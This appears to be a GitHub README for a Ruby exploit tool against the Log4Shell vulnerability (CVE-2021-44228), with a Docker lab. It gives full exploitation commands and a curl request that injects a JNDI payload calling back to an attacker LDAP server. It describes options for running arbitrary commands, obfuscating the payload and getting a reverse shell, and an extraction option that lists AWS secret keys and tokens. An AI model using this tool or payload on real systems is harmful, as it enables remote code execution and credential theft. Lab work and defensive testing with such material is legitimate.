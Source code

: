 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none. Possible inputs but not limited to below:
                                        hostName
                                        sys:user.name
                                        sys:user.home
                                        sys:user.dir
                                        sys:java.home
                                        sys:java.vendor
                                        sys:java.version
                                        sys:java.vendor.url
                                        sys:java.vm.version
                                        sys:java.vm.vendor
                                        sys:java.vm.name
                                        sys:os.name
                                        sys:os.arch
                                        sys:os.version
                                        env:JAVA_VERSION
                                        env:AWS_SECRET_ACCESS_KEY
                                        env:AWS_SESSION_TOKEN
                                        env:AWS_SHARED_CREDENTIALS_FILE
                                        env:AWS_WEB_IDENTITY_TOKEN_FILE
                                        env:AWS_PROFILE
                                        env:AWS_CONFIG_FILE
                                        env:AWS_ACCESS_KEY_ID
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Note
This is for educational purposes only. Please use responsibly if you want to test it.
